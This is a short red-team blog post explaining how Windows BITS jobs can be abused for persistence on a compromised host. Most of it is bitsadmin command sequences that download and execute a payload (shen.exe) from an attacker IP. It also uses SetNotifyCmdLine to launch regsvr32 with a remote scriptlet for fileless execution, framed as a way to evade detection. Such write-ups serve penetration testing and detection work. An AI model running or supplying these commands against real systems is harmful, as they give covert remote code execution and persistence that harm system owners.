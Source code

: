 ```yaml
---
layout: single
classes: wide
title: BITS Persistence
excerpt: "Using BITSadmin for persistence"
date: 2020-09-27
tags: [windows persistence]
---
```


# BITS
## What is BITS job?
BITS or also known as Background Intelligent Transfer Service is a application that is used to download or upload files to two protocols which are HTTP web servers and SMB. BITS is also used to update other applications. 

One of the key features of BITS is that it allows download in the background and once a connection has been established it won't get disconnect unless the user logout or rebooted and when the network connection is off. It's also interesting to mention that BITS will reestablished the connection that has been lost due to circumstances for instance network connection was turned off, or the user rebooted or logout.

## Using BITS as a persistence tactic.
In the hacker's view or the offensive side, this can be abused to download payloads or tools that they require, It is also worth to mention that there's a highly chance of not getting detected when using this as there are also legitimate applications that use this so we just need to blend in with the environment. However, using BITS requires administration privileges on the compromised host.

### To download and execute:
```
bitsadmin /create shell
bitsadmin /addfile shell "http://192.168.1.43/shen.exe"  "C:\tmp\shen.exe"
bitsadmin /SetNotifyCmdLine shell C:\tmp\shen.exe NULL
bitsadmin /SetMinRetryDelay "shell" 60
bitsadmin /resume shell
```
1. The `/create` parameter is used to specify what type of jobs you want to create and the name of the job when not specifying the type it will default to `Download`. 
	`bitsadmin /create [type] displayname`
2. The `/addfile` parameter is used to add a file into a specific job which as a value we can add the name of the job, a remoteURL that contains a file or a local file and the output name and location. 
	`bitsadmin /addfile <job> <remoteURL> <localname>`
3. The `/SetNotifyCmdLine` parameter is used to run a cli command after a job was done transferring data. 
	`bitsadmin /setnotifycmdline <job> <program_name> [program_parameters]`
4. The `/SetMinRetryDelay` parameter is used to set how many seconds to wait before retrying to download a file once again that failed. `bitsadmin /setminretrydelay <job> <retrydelay>
`
5. The `/resume` parameter is used to activate the job. 
	`bitsadmin /resume <job>`
	
It is also possible to execute a scriptlet from a remote host via the regsvr32 through `SetNotifyCmdLine` to avoid touching the disk.
```
bitsadmin /SetNotifyCmdLine shell regsvr32.exe "/s /n /u /i:http://192.168.1.43/FHXSd9.sct scrobj.dll"
bitsadmin /resume shell
```

The metasploit module `exploit/multi/script/web_delivery` uses regsvr32 to deliver payloads.

## Resources:
[https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

[https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md)

[https://pentestlab.blog/2019/10/30/persistence-bits-jobs/](https://pentestlab.blog/2019/10/30/persistence-bits-jobs/)

[http://0xthem.blogspot.com/2014/03/t-emporal-persistence-with-and-schtasks.html](http://0xthem.blogspot.com/2014/03/t-emporal-persistence-with-and-schtasks.html)

